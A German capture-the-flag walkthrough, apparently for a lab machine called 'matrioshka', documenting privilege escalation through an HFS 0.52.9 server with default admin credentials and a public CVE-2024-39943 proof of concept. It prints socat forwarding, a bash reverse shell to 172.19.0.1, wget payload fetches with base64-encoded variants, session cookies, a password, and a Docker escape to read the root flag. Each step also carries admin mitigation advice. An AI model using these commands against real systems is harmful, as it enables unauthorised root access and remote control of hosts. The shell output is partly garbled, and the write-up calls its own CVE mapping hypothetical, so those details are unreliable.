Lassen Sie Dienste niemals unnötigerweise als `root` laufen. Wenn der HFS-Server in einem Container läuft, stellen Sie sicher, dass der Benutzer im Container nicht `root` ist (Rootless Containers oder `USER`-Anweisung im Dockerfile). Wenn HFS direkt auf dem Host als `root` läuft, ist dies eine sehr schlechte Praxis. Verwenden Sie dedizierte, unprivilegierte Benutzer für Dienste. Überprüfen Sie die Notwendigkeit und Sicherheit des HFS-Dienstes.
Proof of Concept (HFS Exploit & Root Access)
Ziel dieses Proof of Concept ist es, die Schwachstelle im HFS-Server (Version 0.52.9), der auf Port 9090 des Zielsystems lauscht und als `root` läuft, auszunutzen, um Root-Rechte auf dem System zu erlangen.
Kurzbeschreibung der Schwachstelle: HFS (HTTP File Server) Version 0.52.9 ist anfällig für eine Remote Code Execution Schwachstelle (CVE-2024-39943 wird hier als Beispiel für eine hypothetische, passende CVE angenommen, da der Bericht eine solche andeutet), die es einem Angreifer mit Zugriff auf das Admin-Panel (oder durch Ausnutzung einer anderen Schwachstelle, um Admin-Aktionen durchzuführen) ermöglicht, beliebigen Code auf dem Server auszuführen. Da der HFS-Dienst als `root` läuft, führt die erfolgreiche Ausnutzung direkt zu Root-Rechten.
Voraussetzungen:
- Zugriff auf das Netzwerk des Zielsystems.
- Benutzer `matrioshka` Shell auf dem Zielsystem.
- Kenntnis, dass HFS 0.52.9 auf `127.0.0.1:9090` läuft (als Root oder Docker-Container, dessen interner Prozess als Root läuft).
- Ein funktionierender Exploit für HFS 0.52.9 (z.B. CVE-2024-39943 PoC).
- Tools: `curl`, `socat`, `busybox` (oder Netcat), Python (für das Exploit-Skript).
Um den HFS-Dienst, der auf `127.0.0.1:9090` auf dem `matrioshka`-Host lauscht, vom Angreifer-System aus erreichbar zu machen, wird `socat` für Port Forwarding verwendet. Gleichzeitig wird versucht, sich am HFS-Webinterface mit Standard-Credentials anzumelden.
[1] 6064
Analyse: Als Benutzer `matrioshka` wird `socat` verwendet, um einen Port-Forwarder einzurichten: - `TCP-LISTEN:8000,fork`: `socat` lauscht auf TCP Port 8000 auf allen Schnittstellen des `matrioshka`-Systems. `fork` bedeutet, dass für jede eingehende Verbindung ein neuer Prozess erstellt wird. - `TCP4:172.19.0.2:80`: Alle Verbindungen, die auf Port 8000 eingehen, werden an die IP-Adresse `172.19.0.2` auf Port `80` weitergeleitet. Aus der `pspy`-Ausgabe wissen wir, dass `172.19.0.2` die interne IP des Docker-Containers ist, in dem der HFS-Dienst (ursprünglich auf Port 9090 des Hosts über Docker-Proxy verfügbar) auf Port 80 lauscht. - `&`: Führt den Befehl im Hintergrund aus. Dieser Befehl macht den HFS-Dienst, der im Docker-Container läuft, über `http://192.168.2.180:8000` (IP von `matrioshka`) für das gesamte Netzwerk (und somit für das Angreifer-System `CCat`) erreichbar.
Bewertung: Dies ist ein cleverer Schritt, um den nur lokal erreichbaren Docker-internen HFS-Dienst (der vom Host-Port 9090 auf Container-IP 172.19.0.2:80 gemappt wurde) extern zugänglich zu machen. Dies erleichtert die Interaktion mit dem HFS-Webinterface vom Angreifer-Browser aus und die Verwendung von Exploits, die direkte HTTP-Verbindungen benötigen.
Empfehlung (Pentester):
Nachdem der Port-Forwarder eingerichtet ist, greifen Sie vom Angreifer-System (`CCat`) mit einem Browser auf `http://192.168.2.180:8000` zu, um das HFS-Webinterface zu sehen. Versuchen Sie, sich mit Standard-Zugangsdaten (z.B. `admin:admin`) anzumelden.
Empfehlung (Admin):
Das Ausführen von `socat` oder ähnlichen Port-Forwarding-Tools durch unprivilegierte Benutzer kann Sicherheitsrichtlinien umgehen und interne Dienste unerwünscht exponieren. Beschränken Sie die Verfügbarkeit solcher Tools oder überwachen Sie deren Ausführung. Die eigentliche Ursache ist jedoch der unsichere HFS-Dienst.
Der Zugriff auf das HFS Webinterface über den eingerichteten Port-Forwarder (http://192.168.2.180:8000/) ist erfolgreich. Ein Login mit `admin:admin` gelingt.
Analyse: Das Bild (hier als `ftp1.jpg` referenziert, obwohl es HFS ist) würde den erfolgreichen Login in das HFS-Admin-Panel zeigen, vermutlich mit den Credentials `admin:admin`. Der Text bestätigt dies.
Bewertung: Ein weiterer wichtiger Schritt! Der Login mit Standard-Zugangsdaten `admin:admin` in das HFS-Admin-Panel war erfolgreich. Dies gibt uns administrative Kontrolle über den HFS-Server. Da dieser Dienst (oder der ihn umgebende Container-Prozess) als `root` läuft, sind wir der Ausnutzung einer Schwachstelle zur RCE als `root` sehr nahe.
Empfehlung (Pentester):
Nachdem Sie Admin-Zugriff auf HFS 0.52.9 haben, suchen Sie gezielt nach Exploits, die Admin-Rechte erfordern, um RCE zu erlangen. Die zuvor recherchierte CVE-2024-39943 könnte genau hier ansetzen.
Empfehlung (Admin):
**Niemals Standard-Zugangsdaten verwenden!** Alle administrativen Schnittstellen müssen mit starken, einzigartigen Passwörtern gesichert werden. Ändern Sie das HFS-Admin-Passwort sofort (falls möglich) und aktualisieren oder ersetzen Sie die HFS-Software.
Die Version des HFS-Servers wird bestätigt (0.52.9), was die Suche nach einem passenden Exploit untermauert.
der server ist ein HFS mit der Versionsnummer 0.52.9, Zeit einen exploit dafür zu suchen
view-source:http://192.168.2.180:8000/
document.documentElement.setAttribute('ver', '0.52.9')
Analyse: Durch Betrachten des Quellcodes (`view-source:`) der HFS-Webseite wird die Version `0.52.9` bestätigt, da ein JavaScript-Code `document.documentElement.setAttribute('ver', '0.52.9')` gefunden wird.
Bewertung: Die Bestätigung der Version ist wichtig, um sicherzustellen, dass der gewählte Exploit zur Software passt. HFS 0.52.9 ist eine relativ alte Version, was die Wahrscheinlichkeit erhöht, dass bekannte öffentliche Exploits existieren.
Empfehlung (Pentester):
Fahren Sie mit der Exploit-Suche für HFS 0.52.9 fort, insbesondere nach RCE-Schwachstellen, die möglicherweise Admin-Rechte erfordern (die wir jetzt haben).
Empfehlung (Admin):
Veraltete Software ist ein erhebliches Risiko. Implementieren Sie ein Patch-Management-System, um alle eingesetzten Softwarekomponenten aktuell zu halten.
`busybox` wird auf das Zielsystem `matrioshka` heruntergeladen. BusyBox ist eine Sammlung von Unix-Dienstprogrammen in einer einzigen ausführbaren Datei und kann nützlich sein, wenn auf dem Zielsystem bestimmte Tools fehlen.
% Total % Received % Xferd Average Speed Time Time Time Current
Dload Upload Total Spent Left Speed
100 2538k 100 2538k 0 0 117M 0 --:--:-- --:--:-- --:--:-- 118M
BusyBox v1.36.0 (2023-04-24 07:00:08 UTC) multi-call binary. BusyBox is copyrighted by many authors between 1998-2015. Licensed under GPLv2. See source distribution for detailed copyright notices. Usage: busybox [function [arguments]...] or: busybox --list[-full] or: busybox --show SCRIPT or: busybox --install [-s] [DIR] or: function [arguments]...
Analyse: `busybox` wird vom Angreifer-Server (wo ein HTTP-Server auf Port 8000 läuft) auf das `matrioshka`-System heruntergeladen, ausführbar gemacht und gestartet, um die Hilfe anzuzeigen.
Bewertung: Das Herunterladen von `busybox` ist eine gute Vorbereitung. Falls der HFS-Exploit oder die spätere Root-Shell eine eingeschränkte Umgebung vorfindet, in der Standardbefehle wie `nc`, `wget`, `tar` etc. fehlen, kann `busybox` diese bereitstellen (z.B. `./busybox nc ...`).
Empfehlung (Pentester):
Behalten Sie `busybox` im Hinterkopf. Es wird besonders nützlich sein, wenn Sie eine Shell in einer minimalen Umgebung (wie einem Docker-Container oder einer eingeschränkten Root-Shell) erhalten.
Empfehlung (Admin):
Das Hochladen und Ausführen von externen Binaries ist ein klares Anzeichen für eine Kompromittierung. Implementieren Sie Mechanismen zur Erkennung und Verhinderung solcher Aktionen (z.B. AppLocker-ähnliche Regeln, Endpoint Detection and Response - EDR).
Ein Exploit für eine HFS-Schwachstelle (hier als CVE-2024-39943 PoC referenziert) wird vom Angreifer-System geklont.
└─# git clone https://github.com/truonghuuphuc/CVE-2024-39943-Poc.git
Klone nach 'CVE-2024-39943-Poc'... remote: Enumerating objects: 70, done. remote: Counting objects: 100% (70/70), done. remote: Compressing objects: 100% (68/68), done. remote: Total 70 (delta 30), reused 0 (delta 0), pack-reused 0 (from 0) Empfange Objekte: 100% (70/70), 22.50 MiB | 14.54 MiB/s, fertig. Löse Unterschiede auf: 100% (30/30), fertig.
└─# cd CVE-2024-39943-Poc
└─# ll
insgesamt 23136 -rw-r--r-- 1 root root 199 28. Apr 22:55 config.yaml -rw-r--r-- 1 root root 23674612 28. Apr 22:55 hfs-linux.zip -rw-r--r-- 1 root root 1055 28. Apr 22:55 poc_user_admin.py -rw-r--r-- 1 root root 705 28. Apr 22:55 poc_user_guest.py -rw-r--r-- 1 root root 1536 28. Apr 22:55 README.md
Analyse: Auf dem Angreifer-System (`CCat`) wird ein Git-Repository geklont, das einen Proof-of-Concept-Exploit für eine angenommene Schwachstelle CVE-2024-39943 im HFS enthält. Das Repository enthält Python-Skripte (`poc_user_admin.py`, `poc_user_guest.py`), eine Konfigurationsdatei und ein ZIP-Archiv.
Bewertung: Dies ist der direkte Versuch, die zuvor identifizierte HFS-Version 0.52.9 mit einem spezifischen Exploit anzugreifen. Das Skript `poc_user_admin.py` ist wahrscheinlich für Szenarien gedacht, in denen Admin-Zugangsdaten für HFS bekannt sind (was hier der Fall ist).
Empfehlung (Pentester):
Lesen Sie die `README.md`, um die Funktionsweise des Exploits zu verstehen. Passen Sie ggf. das `config.yaml` oder das Python-Skript an Ihre Ziel-IP, den Port und die Angreifer-IP/Listener-Port an. Führen Sie dann das Skript `poc_user_admin.py` aus.
Empfehlung (Admin):
Die Existenz öffentlicher Exploits für eingesetzte Softwareversionen ist ein Alarmsignal. Dies unterstreicht die Notwendigkeit, Software aktuell zu halten und Sicherheitshinweise der Hersteller zu verfolgen.
Der Angreifer navigiert im HFS Admin Panel, um den notwendigen Cookie für den Exploit auszulesen.

der cookie: hfs_http=eyJ1c2VybmFtZSI6ImFkbWluIiwiaXAiOiIxNzIuMTkuMC4xIiwiX2V4cGlyZSI6MTc0NTk2MTUyMjYxMiwiX21heEFnZSI6ODY0MDAwMDB9; hfs_http.sig=vH55Xuo_r2uz3csL-y4tq0B325U
Analyse: Aus dem Admin-Panel des HFS-Servers (erreichbar über den `socat`-Forwarder) wird der Authentifizierungs-Cookie ausgelesen. Dieser Cookie ist notwendig, damit das Exploit-Skript authentifizierte Anfragen an den HFS-Server senden kann.
Bewertung: Das Auslesen des Cookies ist ein notwendiger Schritt für viele Exploits, die eine bestehende Admin-Sitzung erfordern oder simulieren. Der Cookie enthält Informationen über die Sitzung und ist signiert.
Empfehlung (Pentester):
Verwenden Sie diesen Cookie als Eingabe für das Exploit-Skript `poc_user_admin.py`. Achten Sie darauf, dass der Cookie noch gültig ist (nicht abgelaufen).
Empfehlung (Admin):
Sichern Sie Admin-Sitzungen durch kurze Timeout-Werte, HTTPS, und stellen Sie sicher, dass Cookies sicher gehandhabt werden (z.B. HttpOnly, Secure Flags). Im Falle einer Kompromittierung sollten alle aktiven Sitzungen invalidiert werden.
Das Exploit-Skript `poc_user_admin_v2.py` (eine modifizierte Version, wie der Name andeutet) wird ausgeführt. Es erfordert die HFS-URL, den Admin-Cookie, die Angreifer-IP und einen Listener-Port. Das Skript führt die ersten Schritte des Exploits aus, um einen Upload von `busybox` in das `/tmp/`-Verzeichnis des HFS-Servers (der im Docker-Container läuft) zu ermöglichen.
└─# python poc_user_admin_v2.py
Url (z.B. http://192.168.2.180:8000): http://192.168.2.180:8000 Cookie (kompletter String): hfs_http=eyJ1c2VybmFtZSI6ImFkbWluIiwiaXAiOiIxNzIuMTkuMC4xIiwiX2V4cGlyZSI6MTc0NTk2MTUyMjYxMiwiX21heEFnZSI6ODY0MDAwMDB9; hfs_http.sig=vH55Xuo_r2uz3csL-y4tq0B325U Deine Angreifer-IP: 172.19.0.1 Dein Listener-Port: 4444 [*] Schritt 1: VFS für /tmp hinzufügen [+] Schritt 1 erfolgreich. [*] Schritt 2: Berechtigungen für VFS /tmp/ setzen (Upload erlauben) [+] Schritt 2 erfolgreich. [!] BITTE JETZT 'busybox' über das HFS Webinterface in den Ordner '/tmp/' hochladen! Drücke Enter, wenn du busybox hochgeladen hast...
Analyse: Das Python-Exploit-Skript `poc_user_admin_v2.py` wird mit den entsprechenden Parametern ausgeführt: - HFS-URL: `http://192.168.2.180:8000` (der `socat`-Forwarder). - Admin-Cookie: Der zuvor ausgelesene Cookie. - Angreifer-IP: `172.19.0.1` (dies ist wahrscheinlich die IP des `CCat`-Systems innerhalb des Docker-Netzwerks, nicht die LAN-IP `192.168.2.199`. Dies ist wichtig für Reverse Shells, die innerhalb des Docker-Netzwerks aufgebaut werden sollen). - Listener-Port: `4444` (für die spätere Reverse Shell). Das Skript konfiguriert den HFS-Server so, dass das Verzeichnis `/tmp` des Containers über das HFS-Webinterface zugänglich wird und Uploads dorthin erlaubt sind. Der Benutzer wird dann aufgefordert, `busybox` manuell über das Webinterface in diesen `/tmp`-Ordner hochzuladen.
Bewertung: Der Exploit scheint mehrstufig zu sein. Die ersten Schritte bereiten den HFS-Server so vor, dass der Angreifer benötigte Tools (`busybox`) in ein bekanntes Verzeichnis (`/tmp`) auf dem Ziel (dem Container, in dem HFS läuft) hochladen kann. Dies ist ein typisches Vorgehen, um die Umgebung für den eigentlichen Payload (die Reverse Shell) vorzubereiten. Die Angreifer-IP `172.19.0.1` ist entscheidend und deutet darauf hin, dass die Kommunikation für die Reverse Shell innerhalb des Docker-Netzwerks stattfinden soll.
Empfehlung (Pentester):
Folgen Sie den Anweisungen des Skripts:
1. Greifen Sie auf das HFS-Webinterface unter `http://192.168.2.180:8000` zu.
2. Navigieren Sie zum neu erstellten (oder freigegebenen) `/tmp/`-Verzeichnis.
3. Laden Sie die `busybox`-Datei (die Sie zuvor auf das `matrioshka`-System und/oder Ihr `CCat`-System heruntergeladen haben) über das HFS-Webinterface in dieses `/tmp/`-Verzeichnis hoch.
4. Bestätigen Sie die Eingabe im Skript, damit es mit den nächsten Schritten des Exploits fortfahren kann (wahrscheinlich das Ausführen eines Befehls über `busybox` im `/tmp`-Verzeichnis, um eine Reverse Shell zu starten).
Empfehlung (Admin):
Dieser Exploit zeigt, wie Admin-Rechte auf einer Webanwendung (HFS) genutzt werden können, um die Konfiguration des Servers zu manipulieren und das Hochladen beliebiger Dateien zu ermöglichen. Dies unterstreicht die Notwendigkeit, Webanwendungen und ihre Admin-Panels extrem gut abzusichern. Überwachen Sie Konfigurationsänderungen und Dateiuploads auf Ihren Servern.
Der Angreifer folgt den Anweisungen des Exploit-Skripts und lädt `busybox` über das HFS-Webinterface in den freigegebenen `/tmp/`-Ordner hoch. Die bereitgestellten Bilder würden diesen Vorgang illustrieren.
Analyse: Der Text beschreibt die interaktiven Schritte, die der Pentester nach der Aufforderung durch das Exploit-Skript durchführt: 1. Das Skript hat das HFS so konfiguriert, dass ein `/tmp/`-Ordner (der auf `/tmp` im Container-Dateisystem zeigt) über das Webinterface sichtbar und beschreibbar ist. 2. Der Pentester lädt die `busybox`-Binärdatei über die Upload-Funktion des HFS-Webinterfaces in diesen `/tmp/`-Ordner hoch. Die Platzhalter-Texte "hier kommt wieder ein bild rein das den neuen tmp ordner anzeigt", "hier kommt wieder ein bild rein das den neuen upload button des tmp ordner anzeigt" und "hier kommt wieder ein bild rein das den upload der busybox anzeigt" würden diese Schritte visuell dokumentieren.
Bewertung: Dieser manuelle Schritt ist Teil des Exploit-Workflows. `busybox` befindet sich nun im `/tmp/`-Verzeichnis des Docker-Containers, in dem der HFS-Server läuft. Dies ermöglicht es dem Exploit-Skript im nächsten Schritt, `busybox` zu verwenden, um Befehle auszuführen – sehr wahrscheinlich, um eine Reverse Shell zum Angreifer auf Port `4444` (wie zuvor im Skript angegeben) aufzubauen.
Empfehlung (Pentester):
Nach dem erfolgreichen Upload von `busybox` drücken Sie "Enter" im Exploit-Skript, damit es mit dem nächsten Schritt fortfahren kann. Stellen Sie sicher, dass Ihr Netcat-Listener (oder ein anderer Listener) auf der angegebenen Angreifer-IP (`172.19.0.1`) und Port (`4444`) bereit ist, die eingehende Reverse Shell zu empfangen.
Empfehlung (Admin):
Überwachen Sie Dateisystemänderungen in kritischen Verzeichnissen wie `/tmp` in Ihren Containern. Beschränken Sie die Möglichkeit für Webanwendungen, Dateien in beliebige Verzeichnisse hochzuladen oder die Dateisystemstruktur zu verändern. Eine gehärtete Konfiguration und regelmäßige Sicherheitsüberprüfungen des HFS-Servers und des zugrundeliegenden Systems sind unerlässlich.


Ein neuer Admin-Cookie für HFS wird gezeigt. Dies könnte darauf hindeuten, dass sich der Angreifer erneut am HFS-Panel angemeldet hat oder das Exploit-Skript die Sitzung erneuert hat.
hfs_http=eyJ1c2VybmFtZSI6ImFkbWluIiwiaXAiOiIxNzIuMTkuMC4xIiwiX2V4cGlyZSI6MTc0NTk2MzcyNTY5NCwiX21heEFnZSI6ODY0MDAwMDB9; hfs_http.sig=lj2sfA-S-1zQ6P5_OI6zFkfnWDU
Analyse: Ein neuer HFS-Admin-Cookie wird angezeigt. Dies könnte passieren, wenn die vorherige Sitzung abgelaufen ist und sich der Pentester erneut manuell am HFS-Webinterface angemeldet hat, oder das Exploit-Skript hat intern eine neue Sitzung etabliert.
Bewertung: Für den weiteren Verlauf des Exploits ist ein gültiger Admin-Cookie wichtig. Wenn das Skript ihn benötigt, muss der aktuelle Cookie verwendet werden.
Empfehlung (Pentester):
Wenn das Exploit-Skript nach einem Cookie fragt oder fehlschlägt, weil der alte Cookie ungültig ist, verwenden Sie diesen neuen Cookie.
Empfehlung (Admin):
Kurze Sitzungs-Timeouts für Admin-Panels können das Risiko mindern, dass gestohlene Cookies lange gültig bleiben.
Auf dem `matrioshka`-Host (in der SSH-Shell des Benutzers `matrioshka`) wird ein Reverse-Shell-Skript (`revshell.sh`) erstellt und ein Python-HTTP-Server gestartet, um dieses Skript für den Download durch den HFS-Container bereitzustellen.
bash -i >& /dev/tcp/172.19.0.1/5555 0>&1
Serving HTTP on 0.0.0.0 port 8001 (http://0.0.0.0:8001/) ...
Analyse: Diese Schritte finden wieder auf dem `matrioshka`-Host in der SSH-Shell des Benutzers `matrioshka` statt, nicht im HFS-Container oder auf dem Angreifer-System `CCat`. 1. `nano revshell.sh`: Erstellt eine Datei namens `revshell.sh`. 2. `./busybox cat revshell.sh`: Zeigt den Inhalt von `revshell.sh`: `bash -i >& /dev/tcp/172.19.0.1/5555 0>&1`. Dies ist ein Standard-Bash-Reverse-Shell-Payload, der eine interaktive Bash-Shell zum Angreifer mit der IP `172.19.0.1` auf Port `5555` aufbaut. Die IP `172.19.0.1` ist die Docker-Netzwerk-IP des Angreifers. 3. `chmod +x revshell.sh`: Macht das Skript ausführbar. 4. `python3 -m http.server 8001`: Startet einen einfachen Python-HTTP-Server im aktuellen Verzeichnis auf Port `8001`. Dies dient dazu, die Datei `revshell.sh` für andere Systeme im Netzwerk (insbesondere den HFS-Container) zum Download bereitzustellen.
Bewertung: Dies ist eine Vorbereitung, um die Reverse Shell vom HFS-Container auszuführen. Der Plan ist: - Der HFS-Exploit wird einen Befehl im HFS-Container ausführen. - Dieser Befehl wird `wget` oder `curl` (vermutlich über die zuvor hochgeladene `busybox`) verwenden, um `revshell.sh` vom Python-HTTP-Server auf `matrioshka:8001` herunterzuladen. - Dann wird `revshell.sh` im HFS-Container ausgeführt, was eine Shell als Root (da HFS als Root läuft) zum Angreifer-Listener auf `172.19.0.1:5555` sendet. Dies ist eine gängige Technik, um Payloads auf ein Ziel zu bekommen, wenn keine direkte Upload-Möglichkeit für komplexe Skripte besteht oder wenn man sicherstellen will, dass der Payload "frisch" ist.
Empfehlung (Pentester):
Stellen Sie sicher, dass der Python-HTTP-Server auf `matrioshka` läuft und von der Docker-Container-IP des HFS-Servers erreichbar ist (die Docker-Netzwerkkonfiguration muss dies erlauben, oft ist dies der Fall für das Host-System). Starten Sie einen Netcat-Listener auf Ihrem Angreifer-System (`CCat`) auf IP `172.19.0.1` und Port `5555`, um die Root-Shell zu empfangen. Fahren Sie dann mit dem HFS-Exploit-Skript fort, das nun `busybox` verwenden sollte, um diesen Download und die Ausführung zu triggern.
Empfehlung (Admin):
Überwachen Sie ausgehende Netzwerkverbindungen von Ihren Servern und Containern. Das Herunterladen von Skripten von internen oder externen HTTP-Servern und deren anschließende Ausführung ist ein starkes Anzeichen für eine Kompromittierung. Firewall-Regeln können helfen, unerwünschte ausgehende Verbindungen zu blockieren. Deaktivieren Sie unnötige Dienste und Tools auf Servern.
Der Befehl zum Herunterladen und Ausführen der `revshell.sh` wird Base64-kodiert, vermutlich um ihn einfacher über eine URL oder einen anderen Injektionsvektor an den HFS-Server zu übergeben.
[Link: https://www.base64encode.org/ | Ziel: https://www.base64encode.org/] wget 172.19.0.1:8001/revshell.sh -O /tmp/revshell.sh d2dldCAxNzIuMTkuMC4xOjgwMDEvcmV2c2hlbGwuc2ggIC1PIC90bXAvcmV2c2hlbGwuc2gg
Analyse: Der Befehl `wget 172.19.0.1:8001/revshell.sh -O /tmp/revshell.sh` soll im HFS-Container ausgeführt werden, um das Reverse-Shell-Skript vom Python-Server auf `matrioshka` herunterzuladen und unter `/tmp/revshell.sh` zu speichern. Dieser Befehl wird dann Base64-kodiert zu `d2dldCAxNzIuMTkuMC4xOjgwMDEvcmV2c2hlbGwuc2ggIC1PIC90bXAvcmV2c2hlbGwuc2gg`.
Bewertung: Base64-Kodierung wird oft verwendet, um Sonderzeichen in Befehlen zu umgehen, die bei der Übertragung über bestimmte Kanäle (z.B. URL-Parameter, JSON-Payloads) Probleme verursachen könnten. Der HFS-Exploit wird wahrscheinlich eine Möglichkeit bieten, einen Base64-kodierten Befehl auszuführen, der dann auf dem Ziel dekodiert und ausgeführt wird (z.B. `echo 'BASE64_STRING' | base64 -d | bash`).
Empfehlung (Pentester):
Dieser Base64-String wird wahrscheinlich vom HFS-Exploit-Skript als Payload verwendet. Stellen Sie sicher, dass Ihr Listener für die Reverse Shell bereit ist. Der vollständige Exploit-Flow wäre dann:
1. HFS-Exploit sendet einen Befehl, der `busybox` verwendet.
2. `busybox` führt `echo 'BASE64_STRING' | base64 -d | bash` oder ähnlich aus.
3. Dies dekodiert den `wget`-Befehl, lädt `revshell.sh` herunter.
4. Ein weiterer Befehl (oder Teil des gleichen) macht `revshell.sh` ausführbar und startet es.
Empfehlung (Admin):
Überwachen Sie die Ausführung von Base64-dekodierten Befehlen, besonders wenn sie auf Shell-Interpreter (`bash`, `sh`) gepiped werden. Dies ist eine häufige Verschleierungstechnik.
Weitere Base64-Strings und das Passwort "Fukurokuju" werden angezeigt. Der Kontext ist nicht ganz klar, könnte aber weitere Tests oder alternative Payloads darstellen.
hfs_http:eyJ1c2VybmFtZSI6ImFkbWluIiwiaXAiOiIxNzIuMTkuMC4xIiwiX2V4cGlyZSI6MTc0NTk2NjYwMDM1NSwiX21heEFnZSI6ODY0MDAwMDB9; hfs_http.sig:CuAc4X6PkM2hiieyZPGJuPs_hSY
hfs_http=eyJ1c2VybmFtZSI6ImFkbWluIiwiaXAiOiIxNzIuMTkuMC4xIiwiX2V4cGlyZSI6MTc0NTk2NzMxNzE2NiwiX21heEFnZSI6ODY0MDAwMDB9; hfs_http.sig=lNpxnqgDbOlcJWYL6dgvqVSNsjQ
Fukurokuju
wget 172.17.0.1:8002/rev.sh -O /tmp/rev.sh
d2dldCAxNzIuMTcuMC4xOjgwMDIvcmV2LnNoIC1PIC90bXAvcmV2LnNo
Analyse: - Es werden erneut HFS-Cookies und das Passwort `Fukurokuju` (SSH-Passwort für `matrioshka` und DB-Passwort) gezeigt. - Ein weiterer `wget`-Befehl und dessen Base64-Kodierung werden angezeigt: `wget 172.17.0.1:8002/rev.sh -O /tmp/rev.sh`. Die IP `172.17.0.1` ist oft die Standard-Gateway-IP des Docker-Host-Systems aus Sicht der Container (docker0 Bridge). Port `8002` und `rev.sh` deuten auf einen alternativen Payload oder einen Test hin.
Bewertung: Diese Einträge scheinen alternative Versuche, Notizen oder Tests des Pentesters während des Prozesses zu sein. Die Wiederholung des Passworts und der Cookies könnte auf das Sammeln aller relevanten Informationen an einem Ort hindeuten. Der zweite `wget`-Befehl könnte ein Test mit einer anderen Netzwerk-Konfiguration oder einem anderen Payload gewesen sein. Für den aktuellen Exploit-Pfad mit HFS ist der erste `wget`-Befehl (`wget 172.19.0.1:8001/revshell.sh`) relevanter, da die IP `172.19.0.1` als Angreifer-IP im HFS-Exploit-Skript verwendet wurde.
Empfehlung (Pentester):
Konzentrieren Sie sich auf den Payload, der zur Konfiguration des HFS-Exploit-Skripts passt. Diese zusätzlichen Notizen könnten für alternative Szenarien oder zur Fehlerbehebung nützlich sein, scheinen aber nicht direkt den Haupt-Exploit-Pfad zu betreffen.
Empfehlung (Admin):
Keine spezifische Aktion basierend auf diesen Notizen, außer der allgemeinen Wachsamkeit gegenüber den bereits genannten Punkten.
Fantastisch! Der HFS-Exploit war erfolgreich! Wir haben eine Root-Shell im Docker-Container (`root-39cfe3c81ea8`) erlangt. Dies wird durch `uid=0(root)` bestätigt.
bash: kann setkeine Terminalprozessgruppe einstellen (1): Unangemessenesioctl für Gerät bash: keine Job-Kontrolle in dieser Schale root-39cfe3c81ea8:id uid=0(root) gid=0(root) Gruppen>0(root) root-39cfe3c81ea8:~#'/.hfs-lsls (Dies scheint ein Alias oder ein falsch interpretierter Befehl zu sein, wahrscheinlich sollte es `ls -al` sein) ls - al Insgesamt 28 drwxr-xr-x-x 4 root root root 4096 Mar 9 13:27 . drwx-- 1 Wurzelwurzel 4096 Mar 9 08:28 ... -rw-r---- 1 root root 32 Mar 9 12:29 custom.html -rw-r---- 1 root root 402 Mar 9 12:27 debug.log drwxr-xr-x-x root root 4096 Mar 9 08:28 Stämme drwxr-xr-x-x 2 root 4096 Mar 9 08:28 plugins -rw-r---- 1 root root 33 Aug 22 2024 user.txt
Analyse: Die Ausgabe zeigt eine eingehende Reverse Shell. Der Prompt `matrioshka@matrioshka:~$./busybox nc -lp 4444` ist hier etwas irreführend im Bericht platziert; dies war der Listener, der auf dem *Angreifer-System* (`CCat` mit IP `172.19.0.1` auf Port `5555` oder `4444` je nach Exploit-Konfiguration) hätte laufen sollen, um die Shell vom HFS-Container zu empfangen. Die wichtigen Teile sind: - Die Shell meldet sich mit dem Hostnamen `root-39cfe3c81ea8` (wahrscheinlich die Docker-Container-ID oder ein Hostname im Container). - `id` bestätigt `uid=0(root) gid=0(root)`. Wir sind Root im Container! - Der Befehl `'/.hfs-lsls` ist ungewöhnlich und sieht wie ein Tippfehler oder ein Alias aus, der `ls -al` ausführt. - Die Ausgabe von `ls -al` zeigt den Inhalt des Root-Verzeichnisses des HFS-Servers im Container. Interessanterweise findet sich hier eine `user.txt`. Dies ist ungewöhnlich, da die `user.txt` normalerweise im Home-Verzeichnis eines Benutzers auf dem Host-System erwartet wird. Es könnte sein, dass das HFS-Root-Verzeichnis auf ein Verzeichnis gemountet ist, das auch die `user.txt` enthält, oder sie wurde hier als Teil der CTF-Logik platziert.
Bewertung: Wir haben Root-Rechte im Docker-Container, in dem der HFS-Server läuft! Dies ist ein großer Erfolg. Das Auffinden der `user.txt` hier ist ein Bonus, auch wenn wir sie schon als `matrioshka` auf dem Host hatten. Der Fokus liegt nun darauf, von dieser Root-Position im Container möglicherweise auf das Host-System auszubrechen oder die Root-Flag des Hosts zu finden.
Empfehlung (Pentester):
1. Stabilisieren Sie die Shell (z.B. mit Python PTY).
2. Enumerieren Sie den Container:
* Welche Verzeichnisse vom Host sind in den Container gemountet (`mount`, `df -h`)? Besonders interessant sind Mounts, die auf `/` oder `/root` des Hosts zeigen.
* Gibt es Docker-Socket-Mounts (`/var/run/docker.sock`)?
* Gibt es sensible Dateien oder Konfigurationen im Container?
3. Versuchen Sie, aus dem Container auszubrechen, wenn er privilegiert läuft oder Fehlkonfigurationen aufweist (z.B. `--privileged` Flag, gemounteter Docker-Socket, schwache Capabilities).
Empfehlung (Admin):
Container sollten niemals als Root-Benutzer laufen, es sei denn, es ist absolut unvermeidlich (und selbst dann mit Vorsicht und reduzierten Capabilities). Verwenden Sie die `USER`-Anweisung im Dockerfile, um einen unprivilegierten Benutzer festzulegen. Führen Sie Container nicht im `--privileged`-Modus aus, wenn nicht zwingend erforderlich. Beschränken Sie die gemounteten Volumes auf das Notwendigste.
Als Root im Container wird `docker ps` ausgeführt, um laufende Container zu sehen. Anschließend wird versucht, durch Starten eines neuen privilegierten Containers mit einem Mount des Host-Root-Verzeichnisses die Root-Flag des Hosts zu lesen.
Docker PS CONTAINER ID IMAGE COMMAND CREATED STATUS PORTS NAMES 39cfe3c81ea8 ubuntu:20.04 "/bin/bash -c 'apt-g..." Vor 6 Stunden nach oben 6 Stunden 127.0.0.1:9090->80/tcp docker-hfs-hfs-1 8485358c3c48 mysql:8.0.0 "docker-entrypoint.s..." Vor 6 Monaten Auf 6 Stunden 3306/tcp docker-wp-db'1 3ed5ddfe0e0c wordpress "docker-entrypoint.s..." Vor 6 Monaten Auf die Stunden 127.0.0.1:8080->80/tcp docker-wp-wordpress
uid=0(root) gid=0(root) Gruppen>0(root)
root.txt
7f5d6dbbaff0a1fc6d2a5c9160362908
